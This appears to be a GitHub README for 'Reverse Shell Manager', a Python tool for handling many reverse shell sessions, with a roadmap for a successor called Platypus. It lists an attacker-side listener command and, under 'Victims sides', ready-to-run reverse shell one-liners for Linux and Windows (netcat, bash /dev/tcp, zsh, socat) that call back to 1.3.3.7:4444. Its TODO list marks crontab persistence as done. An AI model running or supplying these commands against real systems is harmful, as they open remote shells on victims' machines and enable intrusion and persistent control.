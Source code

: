 # Reverse Shell Manager

```
A multiple reverse shell sessions/clients manager via terminal
```

#### New version is under development

* Platypus
  * More stable
  * More features
  * Upgrade common reverse shell session to full interactive seession
  * Reverse shell as a Service
  * RESTful API
  * ...

#### Attacker side
```
python Reverse-Shell-Manager.py 0.0.0.0 4444
```
#### Victims sides
> Linux
```
nc -e /bin/bash 1.3.3.7 4444
bash -c 'bash -i >/dev/tcp/1.3.3.7/4444 0>&1'
zsh -c 'zmodload zsh/net/tcp && ztcp 1.3.3.7 4444 && zsh >&$REPLY 2>&$REPLY 0>&$REPLY'
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:1.3.3.7:4444  
```
> Windows
```
nc.exe -e /bin/bash 1.3.3.7 4444
```

#### Simple Example Video 

[![asciicast](https://asciinema.org/a/143640.png)](https://asciinema.org/a/143640)

#### YouTube Example
> https://youtu.be/AoS-q1MGw30  


#### TODO
- [x] Add an item to crontab
- [x] Delete an item from crontab
- [ ] create a class to hold Master
- [ ] select/epoll

#### Bugs

- [x] A victim is connected but didn't add to online list
- [ ] socket stuck on rece()

#### LICENSE

```
THE DRINKWARE LICENSE

<wangyihanger@gmail.com> wrote this file. As long as 
you retain this notice you can do whatever you want 
with this stuff. If we meet some day, and you think 
this stuff is worth it, you can buy me the following
drink(s) in return.

Red Bull
JDB
Coffee
Sprite
Cola
Harbin Beer
etc

Wang Yihang
```
